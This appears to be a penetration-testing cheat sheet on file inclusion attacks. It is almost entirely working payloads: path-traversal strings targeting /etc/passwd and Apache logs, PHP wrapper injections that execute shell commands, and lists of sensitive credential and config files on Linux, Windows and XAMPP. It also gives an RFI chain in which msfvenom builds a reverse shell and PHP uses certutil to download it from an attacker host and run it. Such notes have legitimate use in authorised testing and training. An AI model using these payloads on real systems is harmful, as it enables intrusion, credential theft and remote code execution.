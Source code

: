 # File inclusion

{% code overflow="wrap" %}
```
page=../../../../../../../../../var/log/apache2/access.log
page=../../../etc/passwd%00
page=../../../../../../etc/passwd?
page=../../../../../../etc/passwd%00jpg     
```
{% endcode %}

## Wrappers

Test with:

```
file=data:text/plain,helloworld
```

* if returns plaintext 'helloworld' then we can inject code

```php
file=data:text/plain,<?php echo shell_exec("dir") ?>
```

{% code overflow="wrap" %}
```php
page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```
{% endcode %}



## Linux files

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/secure
/var/log/auth.log
```

### CMS Config Files

```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

## Windows Files

```
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep
C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
```

### XAMPP Files

```
C:/xampp/apache/conf/httpd.conf
C:/xampp/security/webdav.htpasswd
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/xampp/tomcat/conf/tomcat-users.xml
C:/xampp/tomcat/conf/web.xml
C:/xampp/webalizer/webalizer.conf
C:/xampp/webdav/webdav.txt
C:/xampp/apache/bin/php.ini
C:/xampp/apache/conf/httpd.conf
```



### RFI

A good php rev shell that works on linux and windows

{% embed url="https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php?ref=benheater.com" %}

***

Alternate option for Windows:

1. Generate shell payload

{% code overflow="wrap" %}
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=kali_ip LPORT=1234 -f exe > shell.exe 
```
{% endcode %}

2. Upload file to download shell

{% code title="download.php" overflow="wrap" %}
```php
<?php $download = system('certutil.exe -urlcache -f http://kali_ip/shell.exe shell.exe', $val) ?>
```
{% endcode %}

3. Run shell

{% code title="run.php" overflow="wrap" %}
```php
<?php $exec = system('shell.exe', $val) ?>
```
{% endcode %}
